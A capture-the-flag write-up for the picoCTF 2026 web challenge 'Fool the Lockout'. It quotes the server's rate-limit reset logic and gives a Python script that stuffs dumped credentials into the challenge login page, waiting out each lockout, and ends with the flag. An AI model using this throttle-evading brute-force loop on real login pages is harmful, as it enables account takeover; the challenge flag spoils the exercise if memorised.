

# Fool the Lockout — Pico CTF 2026

> **Room / Challenge:** Fool the Lockout (Web)

---

## Metadata

- **CTF:** Pico CTF 2026
- **Challenge:** Fool the Lockout (web)
- **Target / URL:** `https://play.picoctf.org/events/79/challenges/743?category=1&page=1`

---

## Goal

Brute-force and bypass the rate limit to get the flag.

## My Solution

This is the updated version of [Credential Stuffing](../Credential%20Stuffing/README.md), the app server has rate limit check, but there is a vulnerability in `refresh_request_rates_db()` function:

```python
""" Updates the request rates db for a given client ip, since information will likely be stale."""
def refresh_request_rates_db(client_ip):
    curr_time = time.time()
    if client_ip not in request_rates:
        return

    # check if attempt interval has elapsed, if so sets it to 0
    epoch_start_time = request_rates[client_ip]["epoch_start"]
    if curr_time - epoch_start_time > EPOCH_DURATION:
        request_rates[client_ip]["num_requests"] = 0
        request_rates[client_ip]["epoch_start"] = -1

    # if was locked out but period ended update store
    lockout_end = request_rates[client_ip]["lockout_until"]
    if (lockout_end != -1) and time.time() >= lockout_end:
        request_rates[client_ip]["lockout_until"] = -1
```

This is the check `curr_time - epoch_start_time > EPOCH_DURATION` and `EPOCH_DURATION = 30`, so if we bypass this check, our `num_requests` will be set to `0` unconditionally.

Therefore, we still can brute-force the login credentials, just add a new check if we hit the rate limit, we will wait for 30 seconds and continue.

Solve script:

```python
import requests
import time

TARGET_URL = "http://candy-mountain.picoctf.net:55978/login"
CREDS_FILE = "creds-dump.txt"

def exploit():
    session = requests.Session()

    try:
        with open(CREDS_FILE, "r") as file:
            credentials = file.read().splitlines()
    except FileNotFoundError:
        print(f"File not found")
        return

    for cred in credentials:
        if not cred.strip():
            continue

        username, password = cred.split(";")

        while True:
            print(f"Trying {username}:{password}...")

            response = session.post(
                TARGET_URL,
                data={"username": username, "password": password}
            )


            if "Rate Limited Exceeded" in response.text:
                print('Rate limit hit, wait for 30 seconds...')
                time.sleep(31)
                continue

            if "Invalid username or password" in response.text:
                break

            print(f"\nSUCCESS! Logged in with {username}:{password}")

            print(response.text)
            return

    print("\nNOT FOUND CREDS")

if __name__ == "__main__":
    exploit()
```




Flag: `picoCTF{f00l_7h4t_l1m1t3r_b9fcf635}`
